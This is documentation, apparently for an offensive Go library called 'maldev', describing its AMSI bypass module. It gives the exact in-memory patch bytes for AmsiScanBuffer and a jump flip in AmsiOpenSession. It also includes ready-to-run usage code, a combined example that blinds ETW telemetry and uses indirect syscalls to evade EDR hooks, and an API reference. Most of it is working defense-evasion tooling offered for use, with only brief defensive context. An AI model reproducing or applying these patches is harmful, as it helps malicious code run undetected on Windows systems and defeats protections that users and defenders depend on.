

# AMSI Bypass

> **MITRE ATT&CK:** T1562.001 -- Impair Defenses: Disable or Modify Tools | **D3FEND:** D3-AIPA -- Application Integrity Protection Analysis | **Detection:** Medium

## For Beginners

Windows has a built-in security scanner called AMSI (Antimalware Scan Interface). Think of it as a security checkpoint at the entrance of a building -- every script, every command, every piece of code that enters certain applications (PowerShell, .NET, Office macros, WSH) gets scanned before it runs. If the scanner recognizes something malicious, it blocks it.

AMSI bypass is like taping over the scanner's camera lens. The scanner is still there, still running, but it cannot see anything. Technically, you patch the function `AmsiScanBuffer` in memory so that instead of actually scanning content, it immediately returns "all clear" (S_OK with AMSI_RESULT_CLEAN). From that point on, every scan reports the content as safe, regardless of what it actually contains.

This is one of the most common and essential evasion steps. Without it, in-memory PowerShell scripts, .NET assemblies, and other content would be caught by the built-in Windows Defender scanner before they even execute.

## How It Works



**Two patch methods:**

### PatchScanBuffer

1. Resolve `AmsiScanBuffer` in the loaded `amsi.dll`.
2. If amsi.dll is not loaded, return nil (nothing to patch).
3. `VirtualProtect` the function entry to `PAGE_READWRITE`.
4. Overwrite the first 3 bytes with `31 C0 C3` (`xor eax, eax; ret`) -- this makes the function return 0 (S_OK) immediately.
5. `VirtualProtect` back to original permissions.

### PatchOpenSession

1. Resolve `AmsiOpenSession` in `amsi.dll`.
2. Scan the first 1024 bytes for a `JZ` (0x74) conditional jump.
3. Flip `JZ` to `JNZ` (0x75), causing the session to always fail to initialize.
4. Without a valid session, subsequent scans are skipped entirely.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion/amsi"
)

func main() {
    // Patch AmsiScanBuffer with standard WinAPI (nil caller).
    if err := amsi.PatchScanBuffer(nil); err != nil {
        log.Fatal(err)
    }
    // AMSI is now blind -- all scans return clean.
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    // Use indirect syscalls to bypass EDR hooks on VirtualProtect.
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewHellsGate(), wsyscall.NewHalosGate()))

    // Patch both AMSI functions.
    if err := amsi.PatchAll(caller); err != nil {
        log.Fatal(err)
    }

    // Also blind ETW telemetry.
    if err := etw.PatchAll(caller); err != nil {
        log.Fatal(err)
    }

    log.Println("AMSI and ETW bypassed")
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | Medium -- the patch itself requires `VirtualProtect` on amsi.dll pages, which EDR may monitor. Using a Caller routes the protection change through NT syscalls. |
| Effectiveness | High -- completely disables AMSI scanning for the lifetime of the process. |
| Scope | Process-local only. Does not affect other processes or system-wide AMSI. |
| Compatibility | Works when amsi.dll is loaded. If not loaded (e.g., no PowerShell host), the function silently returns nil. |
| Limitations | Some EDR products periodically check amsi.dll integrity (byte comparison against disk). The 3-byte patch is a well-known signature. Advanced defenders may hook `VirtualProtect` to detect the permission change. |
| Persistence | Patch lasts for the process lifetime. Cannot be "unpatched" easily. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| PatchScanBuffer | Yes (`xor eax; ret`) | Yes | BOF | Yes |
| PatchOpenSession | Yes (JZ→JNZ flip) | No | No | No |
| PatchAll (both methods) | Yes | No | No | No |
| Caller-routed VirtualProtect | Yes | No | N/A | No |
| Technique interface | `amsi.ScanBufferPatch()` | Built-in | Profile | Function |
| Safe when AMSI not loaded | Returns nil | Errors | N/A | Errors |

## API Reference

```go
// PatchScanBuffer patches AmsiScanBuffer to return S_OK (AMSI_RESULT_CLEAN).
// Returns nil if amsi.dll is not loaded.
func PatchScanBuffer(caller *wsyscall.Caller) error

// PatchOpenSession flips JZ→JNZ in AmsiOpenSession to prevent initialization.
// Returns nil if amsi.dll is not loaded.
func PatchOpenSession(caller *wsyscall.Caller) error

// PatchAll applies both patches. Returns first error.
func PatchAll(caller *wsyscall.Caller) error

// Technique constructors (for evasion.ApplyAll):
func ScanBufferPatch() evasion.Technique  // wraps PatchScanBuffer
func All() evasion.Technique              // wraps PatchAll
```
